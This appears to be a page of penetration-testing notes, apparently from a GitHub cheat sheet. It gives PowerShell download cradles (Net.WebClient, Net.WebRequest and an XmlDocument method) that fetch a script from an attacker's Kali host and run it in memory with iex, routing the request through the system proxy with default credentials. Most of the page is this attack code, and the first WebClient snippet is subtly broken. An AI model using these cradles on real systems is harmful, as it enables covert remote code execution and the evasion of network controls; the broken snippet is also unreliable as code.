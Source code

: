 #### [+]
We can configure the Net.WebClient class methods to use the systems proxy and default credentials
```powershell

$downloader = New-Object System.Net.WebClient
$payload = http://<kali ip>/script.ps1
$cmd = $downloader.DownloadFile($payload)

$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
$downloader.Proxy = $proxy

iex $cmd

```

#### Net.WebRequest
To download and execute scripts on a target, in memory
```powershell

$req = [System.Net.WebRequest]::Create("http://<kali ip>/script.ps1")
$res = $req.GetResponse()
iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()

```

Instantiate our System.Net.WebRequest class as the $req variable
Create a $res variable to store the WebRequest response
Use the "Invoke-Expression" alias (iex) to invoke the System.IO.StreamReader and execute our code

> It can also be configured to use a proxy
we can add this before the iex line

```powershell

$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
$req.Proxy = $proxy
```

#### System.Xml.XmlDocument
Allow us to execute a powershell command or any system command (in memory)
```powershell

Create a XML file:
<?xml version="1.0"?>
<command>
	<a>
		<execute>Get-Process</execute>
	</a>
</command>

```
